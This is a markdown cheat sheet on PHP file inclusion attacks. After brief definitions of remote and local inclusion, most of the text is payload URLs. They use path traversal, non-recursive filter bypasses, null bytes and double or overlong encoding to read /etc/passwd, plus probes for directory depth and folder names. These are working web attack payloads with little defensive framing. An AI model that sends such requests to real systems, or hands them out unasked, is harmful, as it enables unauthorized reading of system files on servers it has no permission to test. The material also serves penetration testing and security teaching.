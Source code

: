 # File Inclusion
* **`Remote File Inclusion (RFI)`**: The file is loaded from a remote server (Best: You can write the code and the server will execute it). In php this is disabled by default (allow_url_include).
* **`Local File Inclusion (LFI)`**: The sever loads a local file.

**Vulnerable PHP functions:**
* `require`
* `require_once`
* `include`
* `include_once`


## Basic LFI
In the following examples we include the `/etc/passwd` file, check the **`Directory & Path Traversal`** chapter for more interesting files.
```html
http://example.com/index.php?page=../../../etc/passwd
```
traversal sequences stripped non-recursively
```html
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```
### Null byte (%00)
Bypass the append more chars at the end of the provided string (bypass of: `$_GET['param']."php"`)
```html
http://example.com/index.php?page=../../../etc/passwd%00
```
This is solved since **PHP 5.4**

### Encoding
```html
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### From existent folder
Maybe the back-end is checking the folder path:
```html
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```
### Identifying folders on a server
* identify the "depth" of you current directory by succesfully retrieving `/etc/passwd` (if on Linux):
```html
http://example.com/index.php?page=../../../etc/passwd # depth of 3
```
* try and guess the name of a folder in the current directory by adding the folder name (here, private), and then going back to `/etc/passwd`:
```html
http://example.com/index.php?page=private/../../../../etc/passwd # we went deeper down one level, so we have to go 3+1=4 levels up to go back to /etc/passwd 
```
* if the application is **vulnerable**, there might be two different outcomes to the request:
  1. if you get an `error / no output`, the private folder does not exist at this location
  2. if you get the content from `/etc/passwd`, you validated that there is indeed a privatefolder in your current directory
